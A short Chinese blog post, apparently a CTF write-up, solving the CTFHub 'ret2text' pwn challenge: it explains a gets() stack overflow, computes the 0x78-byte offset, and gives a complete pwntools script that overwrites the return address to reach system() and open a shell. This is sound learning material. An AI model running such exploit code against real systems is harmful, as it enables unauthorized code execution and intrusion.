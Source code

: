 ```yaml
---
title: "ret2text"
published: 2022-01-03
description: ""
category: 胡乱折腾
tags: 
  - "ctf"
  - "pwn"
---
```


写的第一个pwn题目来源于ctfhub

这个考的就是最基本的栈溢出

ida分析main函数

![](assets/1641178528-image.png)

gets存在危险

查看v4大小为0x70

然后看secure该函数发现了system

<figure>

![](assets/1641178803-image.png)

<figcaption>

地址为0x4007B8

</figcaption>

</figure>

所以覆盖返回地址即可。

payload = b'a'\*0x78+p64(0x4007B8) // 78是70加上8 64位加8

完整代码为：

```
from pwn import *;

p=process("./pwn")
#p = connect("challenge-6e474600ed68d21e.sandbox.ctfhub.com",31271)
payload = b'A' * 0x78 + p64(0x4007b8)
p.sendline(payload)
p.interactive()
```
